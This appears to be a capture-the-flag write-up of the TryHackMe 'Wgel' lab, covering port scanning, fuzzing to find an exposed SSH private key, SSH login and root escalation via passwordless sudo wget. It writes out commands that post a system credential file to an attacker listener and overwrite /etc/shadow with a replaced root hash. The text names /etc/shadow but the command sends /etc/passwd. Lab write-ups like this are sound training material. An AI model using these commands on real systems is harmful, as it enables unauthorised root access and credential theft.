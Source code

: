 ![image](https://github.com/user-attachments/assets/73bc65b6-6482-4a62-9b5c-dc86b56b5cd0)--------------------

### CTF: TRYHACKME
### LAB: WGELCTF

---------------------

![image](https://github.com/user-attachments/assets/ce453493-74f0-490b-a5e1-ae61a8559e20)

---------------------

### RECONAISSANCE

- Rustscan's output

      ❯ rustscan -a 10.10.186.77 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.186.77:22
      Open 10.10.186.77:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 15:37 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 15:37
      Completed NSE at 15:37, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 15:37
      Completed NSE at 15:37, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 15:37
      Completed NSE at 15:37, 0.00s elapsed
      Initiating Ping Scan at 15:37
      Scanning 10.10.186.77 [2 ports]
      Completed Ping Scan at 15:37, 0.16s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 15:37
      Completed Parallel DNS resolution of 1 host. at 15:37, 0.03s elapsed
      DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 15:37
      Scanning 10.10.186.77 [2 ports]
      Discovered open port 80/tcp on 10.10.186.77
      Discovered open port 22/tcp on 10.10.186.77
      Completed Connect Scan at 15:37, 0.52s elapsed (2 total ports)
      Initiating Service scan at 15:37
      Scanning 2 services on 10.10.186.77
      Completed Service scan at 15:37, 13.25s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.186.77.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 15:37
      Completed NSE at 15:38, 8.56s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 15:38
      Completed NSE at 15:38, 0.78s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 15:38
      Completed NSE at 15:38, 0.01s elapsed
      Nmap scan report for 10.10.186.77
      Host is up, received syn-ack (0.25s latency).
      Scanned at 2024-08-24 15:37:38 EDT for 24s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
      |   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
      |   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
      80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      | http-methods: 
      |_  Supported Methods: POST OPTIONS GET HEAD
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Apache2 Ubuntu Default Page: It works
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- I did directory fuzzing with FFUF and I discovered a directory `sitemap`.

![image](https://github.com/user-attachments/assets/478f763b-7fe8-4e1b-909e-b659d51e684a)

- I discovered a `.ssh` directory after fuzzing for files and directory with `raft_large_files` wordlist.

![image](https://github.com/user-attachments/assets/85fc1729-9460-4b5f-becc-692f32c7b17f)

- I found a username in the Apache server's default page source code.

![image](https://github.com/user-attachments/assets/84f1bc23-bad7-42ab-800f-e49f1a28f0cb)

- The `.ssh` directory contains an `id_rsa` file and I was able to access user `Jessie` with it via ssh.

![image](https://github.com/user-attachments/assets/9c4acbd6-0ad0-469b-97db-0ad9bf80e410)

- SSH Access

![image](https://github.com/user-attachments/assets/1c55d0cd-22f9-463f-86a3-8ec0fd888a1b)

-----------------------------

### PRIVESC with WGET

- Running `sudo -l` indicates a rule that user `Jessie` can run `/usr/bin/wget` binary without password as root.

![image](https://github.com/user-attachments/assets/dff419c9-b90a-492a-8f11-de17803b48b7)

### Sending /etc/shadow to our machine to edit the root hash

- I set up a listener on my machine to receive the file contents

![image](https://github.com/user-attachments/assets/5eb36459-08b2-4af4-a599-d653073a155b)

- I used this command to send the `/etc/shadow` file.

   Command:```sudo -u root /usr/bin/wget --post-file=/etc/passwd <ip>:<port>```

- File contents received over `nc`

![image](https://github.com/user-attachments/assets/5ef0a780-8326-478a-a580-580c402fca63)

- Generate a new hash with openssl

      #SHA512 hash
      openssl passwd -6 <password>

![image](https://github.com/user-attachments/assets/a857e147-61b4-422c-93ae-585fd06703e9)

- Hash format should be according to the format set below.Replace the root user's hash

      root:<hash>:18195:0:99999:7:::

- Set up a python `http.server` module.

![image](https://github.com/user-attachments/assets/12025c43-15f4-43d8-bb25-fed3c55e3ebb)

- Receive on the victim's machine with wget

      sudo -u root /usr/bin/wget http://<ip>:<port>/shadow -O <save location>

![image](https://github.com/user-attachments/assets/2fa53e7f-570c-4742-8555-8ffc87e96bbf)

- Su to root and input the new password

![image](https://github.com/user-attachments/assets/6016028c-b85c-49af-8986-e3c643a178a2)

- Root......

![image](https://github.com/user-attachments/assets/36b4d07f-79e6-433f-9f88-43163c43764d)


----------------------

### REFERENCE:

- [Wget's Privesc](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/)

----------------------
